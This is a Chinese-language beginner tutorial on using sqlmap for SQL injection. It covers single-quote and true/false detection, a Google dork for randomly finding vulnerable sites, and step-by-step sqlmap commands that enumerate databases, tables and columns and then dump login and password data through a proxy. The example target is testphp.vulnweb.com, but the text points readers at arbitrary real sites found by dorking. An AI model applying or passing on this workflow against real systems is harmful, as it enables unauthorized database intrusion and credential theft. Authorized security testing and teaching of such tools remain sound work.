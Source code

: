 最常见的检测SQL注入的方法是通过在输入处添加一个单引号(')并且期待（系统）返回一个错误，有些应用程序并不会返回错误。这个时候我们就会利用true/false语句来检查是否这个应用程序会受到SQL注入的攻击。

为了随机的找到还有SQL注入的脆弱性的网站，你能够使用如下格式的语句利用google dork：**inurl:news.php id =1?**将会出现一堆google dork的数据并且为你过滤你搜索得到的结果提供了可能。那么让那个我们开始吧。

首先在backtrack上进入目录：

`cd /pentest/database/sqlmap`

我们不会立即开始，查看sqlmap.py的菜单使用命令：

./sqlmap.py -h

让我们运行sqlmap.py, 参数是[ --dbs],来发现DBMS中的所有数据库

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/1.jpg)

或者是使用参数 --current-db来发现当前目标使用的数据库

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/2.jpg)

参数-D表示目标的数据库，--tables显示表列

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/3.jpg)

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/4.jpg)

我们将会检查在信息中是否包含感兴趣的内容(admin_users),并把它们按列显示出来，参数是--columns

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/5.jpg)

在你列出表格之前每次指定目标数据库(使用-D参数)是很重要的，因为如果没有-D参数，程序将列出数据库中所有的表格

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/6.jpg)

-T =目标参数

-C=目标列（可以指定超过一列，如：用户名(列),密码(列))

--dump=获得，提取数据

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/7.jpg)

使用--proxy参数来使用代理

例如:./sqlmap.py --url "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs --proxy=http://183.223.10.108:80

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/8.jpg)


我认为以上是对于初学者的基础的命令。sqlmap同样提供许多有趣的功能，我建议使用--prefix=PREFIX，--postfix=POSTFIX和takeover选项。更多关于该工具的使用可以访问官方网站。

![](http://novsec.qiniudn.com/SQLmap简介以及防火墙绕过/9.jpg)

--dump是用来提取网站上的数据，调用时必须选中列，并且你必须明确从列中具体提取什么内容，这里我提取列中保存的登录和密码信息。
